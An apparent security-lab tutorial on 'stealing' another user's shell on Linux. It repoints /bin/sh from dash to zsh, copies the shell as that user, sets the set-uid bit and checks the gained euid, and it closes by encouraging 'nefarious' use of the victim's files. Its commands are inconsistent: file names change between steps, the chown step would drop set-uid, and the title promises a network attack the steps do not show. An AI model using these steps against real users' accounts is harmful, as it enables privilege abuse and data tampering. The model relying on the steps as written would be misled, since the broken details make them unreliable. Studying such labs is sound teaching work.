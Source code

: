 # Task: Stealing a shell from a computer on the same network

## Things To Know

<question></question>
What is `dash`?

<answer></answer>
Besides another shell to haunt you, `dash` is the default system shell for executing system
scripts and other administrative tasks. `dash` has the countermeasure where if `euid!=ruid`, then
`euid` will be set equal to `ruid` which means lifted privilege will be automatically dropped.

<question></question>
Why is this important?

<answer></answer>
If the default shell is changed to another without the same countermeasure, bad actors can do bad
things!

For example, `zsh` (yet another shell) does not have this countermeasure which is why it would be
a good choice of shell to use when attempting to stealing someones shell.

#### Check your default shell

```bash +torchlight-bash
ls -l /bin/sh
# output
lrwxrwxrwx 1 root root 4 Jul 11  2022 /bin/sh -> dash
```

#### Remove the symlink of your default which points to `dash` and recreate pointing to `zsh`

```bash +torchlight-bash
sudo rm /bin/sh
sudo ln -s /bin/zsh /bin/sh
```

#### Confirm shell has been updated

```bash +torchlight-bash
ls -l /bin/sh
# output
lrwxrwxrwx 1 root root 8 Mar 23 07:24 /bin/sh -> /bin/zsh
```

#### Jump on the subject computer and get to the stealing!

This example assumes there is a user called Jane already set up, so rather than jumping on a
physical machine you are just switching user.

```bash +torchlight-bash
# switch user
su jane
# copy janes shell to the tmp directory
cp /bin/sh /tmp/janesStolenShell
# change permissions of the stolen shell
chmod 4755 /tmp/janesStolenShell
```

#### Make sure `set-uid` bit has been enabled

```bash +torchlight-bash
ls -l /tmp/janesStolenShell
# updated permissions
-rwsr-xr-x 1 jane jane 878288 Mar 24 05:10 /tmp/janesStolenShell
```

#### Return back to your computer and access the stolen shell

```bash +torchlight-bash
sudo chown user_name /tmp/janesShell
# confirm the job
/tmp/janesShell
# output
$
```

You can confirm you have successfully stolen the shell by running  `id` command. If the `euid` is
set to the stolen shells user id then you have successfully stolen their shell.

```bash +torchlight-bash
id
# output
uid=1000(seed) gid=1000(seed) euid=1001(jane) groups=1000(seed),120(docker)
```

<question></question>
So what does this do for me?
<answer></answer>
Now that you have access to another users shell you have their privilege so you can copy and
delete their files or do what ever nefarious things bad people do.
